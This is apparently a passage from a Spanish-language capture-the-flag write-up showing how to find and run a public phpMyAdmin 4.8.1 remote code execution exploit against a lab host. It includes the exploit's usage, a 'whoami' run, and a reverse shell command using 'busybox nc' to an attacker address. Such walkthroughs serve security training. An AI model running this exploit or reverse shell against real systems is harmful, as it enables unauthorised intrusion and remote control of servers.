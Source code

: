 ```
└─$ searchsploit phpMyAdmin 4.8 

phpMyAdmin 4.8.1 - Remote Code Execution (RCE)                            | php/webapps/50457.py

└─$ searchsploit -m php/webapps/50457.py    

```

<figure><img src="../.gitbook/assets/ForgottenImplant/exploit.png" alt=""><figcaption></figcaption></figure>

Contamos con un uso muy común para implementarlo.

```
  usage = """Usage: {} [ipaddr] [port] [path] [username] [password] [command]
Example: {} 192.168.56.65 8080 /phpmyadmin username password whoami"""
```

```
└─$ python2 50457.py 10.10.39.148 8080 /index.php <user> <password> whoami

www-data
```

Podemos utilizar una shell inversa y enviarla como comando de la siguiente manera.

```
 python2 50457.py 10.10.39.148 8080 /index.php <user> <pass> 'busybox nc 10.9.0.24 4244 -e sh'
```
